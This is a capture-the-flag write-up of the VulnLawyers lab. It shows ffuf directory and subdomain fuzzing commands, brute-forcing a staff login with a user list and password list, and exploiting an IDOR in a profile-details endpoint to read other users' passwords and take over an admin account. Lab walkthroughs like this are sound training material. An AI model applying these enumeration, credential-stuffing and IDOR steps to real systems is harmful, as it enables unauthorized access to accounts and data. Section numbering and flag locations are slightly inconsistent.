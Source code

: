 VulnLawyers - CTF Walkthrough

📁 Repository Overview

  This repository contains a full walkthrough of the VulnLawyers CTF, solved using only:

  ffuf (directory and subdomain fuzzing)

  Caido (web proxy analysis)

  The methodology follows a clean, repeatable pentest format with all flags captured and documented.

  All screenshots and proof-of-work are stored in the _/screenshots_ directory.

🔧 Tools Used

  ffuf – Fast web fuzzer

  Caido – Web proxy for intercepting and manipulating requests

  Linux shell (Parrot OS)

🔍 Scope

    https://sufrin.ctfi/

🧠 Objective

  Gain access to the VulnLawyers web server, enumerate for vulnerabilities, escalate privileges, and capture all flags.

🛰️ 1. Recon

⚠️ Note: No ports were open for full nmap scan; proceeded directly to web-based fuzzing using known open access.

📂 2. Directory Fuzzing with ffuf (Main Domain)

  _ffuf -w subdomains.txt -u https://sufrin.ctfi/FUZZ_

  Key results:

    /css
    /images
    /login

🌐 3. Subdomain Discovery with ffuf (Main Domain)

  _ffuf -w subdomains.txt -u https://sufrin.ctfi/ -H "Host: FUZZ.sufrin.ctfi"_

  Key result:

    data

📂 4. Directory Fuzzing with ffuf (Subdomain: data)

  _ffuf -w subdomains.txt -u https://data.sufrin.ctfi/FUZZ_

  Key result:

    /users

🔐 5. Intercept & Analyze with Caido

  Interecepted GET _/users_

  Key finding:

    {
    "users": [{
        "name": "Yusef Mcclain",
        "email": "________________"
    }, {
        "name": "Shayne Cairns",
        "email": "_________________________"
    }, {
        "name": "Eisa Evans",
        "email": "________________________"
    }, {
        "name": "Jaskaran Lowe",
        "email": "_______________________"
    }, {
        "name": "Marsha Blankenship",
        "email": "_________________________"
    }],
    "flag": "[________________________________]"
    }

  Intercepted GET _/login_

  Key finding:

    /lawyers-only

  Intercepted POST _/lawyers-only_ (login attempt)

  Key findings (Structure):

    email=admin&password=admin

🛠️ 6. Login Access with Caido

  Automated Matrix Payloads with Caido

  Used usernames found in _/users_ domain and _passwords.txt_ file provided by HackingHub

  Gained credentials and access to _/lawyers-only-profile_

🔐 7. Intercept & Analyze with Caido

Intercepted GET _/lawyers-only-profile-details/4_ (attempted change of credentials)

  Key findings: 

  Insecure Direct Object Reference (IDOR)

    {
    "id": 4,
    "name": "___________",
    "email": "_____________________",
    "password": "_____________"
    }

🧍 8. Privilege Escalation 

  Replayed request with Caido

  GET _/lawyers-only-profile-details/2_

  Key findings:

  User that happens to be the case manager

    {
    "id": 2,
    "name": "Shayne Cairns",
    "email": "_______________",
    "password": "______________",
    "flag": "[____________________]"
    }

  Gained access as Shayne Cairns (Case Manger - Admin)

🏁 7. Flags Captured

Flag # 1

  Path: _https://sufrin.ctfi/users_

Flag # 2

  Caido Intercept: GET _/login_

Flag # 3

  Caido Intercept: GET _/users_

Flag # 4

  Staff Portal: _https://sufrin.ctfi/lawyers-only_

Flag # 5

  Caido Request Replay: GET _/lawyers-only-profile-details/2_
  
Flag # 6

  Staff Portal as Shayne Cairns and deleted current case.

📌 Lessons Learned

Efficient use of just 2 tools (ffuf, caido) is enough to fully compromise a box

Importance of analyzing requests carefully in Caido

Logic flaws and poorly implemented login mechanisms are often more exploitable than buffer overflows
